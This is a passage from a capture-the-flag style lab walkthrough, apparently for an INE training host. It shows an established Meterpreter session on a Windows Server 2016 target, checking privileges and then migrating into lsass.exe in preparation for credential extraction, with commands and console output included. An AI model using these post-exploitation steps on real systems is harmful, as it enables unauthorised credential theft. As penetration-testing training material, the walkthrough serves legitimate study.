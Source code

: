 **Target:** demo.ine.local (10.0.30.225)
**Starting Point:** Meterpreter session already established
**Goal:** Extract all possible credentials and find flags
**Time Needed:** 8-12 minutes

---

### **Step 1: Prepare the Environment**

**What We're Doing:** Making sure our session is stable and we have the right privileges

#### **Commands Used:**
```bash
# Check current privileges
getuid

# Check target system information
sysinfo

# Migrate to secure process for stability
migrate -N lsass.exe
```

#### **What Happened:**
```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows Server 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

meterpreter > migrate -N lsass.exe
[*] Migrating from 4920 to 596...
[+] Migration completed successfully.
```

#### **🎯 What This Means:**
- **NT AUTHORITY\SYSTEM** - We have the highest possible privileges
- **Windows Server 2016** - Compatible with Kiwi extension
- **lsass.exe migration** - Now running in the security process
- **Migration successful** - Ready for credential extraction

#### **Why This Step is Critical:**
LSASS (Local Security Authority Subsystem Service) is where Windows stores credentials in memory. By migrating to this process, we get direct access to password data.

---
